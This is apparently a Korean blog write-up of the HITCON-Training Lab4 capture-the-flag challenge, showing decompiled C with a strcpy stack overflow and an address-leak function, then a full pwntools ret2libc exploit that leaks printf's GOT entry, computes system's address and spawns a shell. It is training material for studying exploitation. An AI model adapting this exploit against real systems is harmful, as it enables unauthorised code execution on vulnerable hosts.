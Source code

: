 ```yaml
---
title: "[HITCON-Training]Lab4"
date: 2019-11-17
ctf: HITCON-Training
layout: post
published : false
---
```


RTL문제다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char **v3; // ST04_4
  int v4; // ST08_4
  char src; // [esp+12h] [ebp-10Eh]
  char buf; // [esp+112h] [ebp-Eh]
  _DWORD *v8; // [esp+11Ch] [ebp-4h]
 
  puts("###############################");
  puts("Do you know return to library ?");
  puts("###############################");
  puts("What do you want to see in memory?");
  printf("Give me an address (in dec) :");
  fflush(stdout);
  read(0, &buf, 10u);
  v8 = strtol(&buf, v3, v4);
  See_something(v8);
  printf("Leave some message for me :");
  fflush(stdout);
  read(0, &src, 256u);
  Print_message(&src);
  puts("Thanks you ~");
  return 0;
}
```

buf에 10진수로 printf의 got값을 넣어주면 See_something함수에서 그 주소가 leak된다. 

leak된 printf로 libc base 구한 후 system address 구해주면 된다.

```c
int __cdecl See_something(_DWORD *a1)
{
  return printf("The content of the address : %p\n", *a1);
}
```

read()함수에 넣은 src가 Print_message함수에 인자로 들어가서 strcpy에서 취약점이 발생한다. 

```c
int __cdecl Print_message(char *src)
{
  char dest; // [esp+10h] [ebp-38h]
 
  strcpy(&dest, src);
  return printf("Your message is : %s", &dest);
}
```

payload = buf(0x38) + sfp(4) + ret(system) + pop + sh

이렇게 페이로드 구성해주면 쉘을 딸 수 있다.

.dynstr에서 sh위치 가져와서 system("sh");가 되게 했다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./ret2lib')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./ret2lib')
 
p.sendlineafter(':',str(e.got['printf']))
 
p.recvuntil(': ')
printf = int(p.recv(10),16)
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
 
sh = 0x804829e # .dynstr -> fflush
popret = 0x08048399 # pop ebx ; ret
pay = 'A'*(0x38+4)
pay += p32(system)
pay += p32(popret)
pay += p32(sh)
 
p.sendlineafter(':',pay)
p.interactive()
```

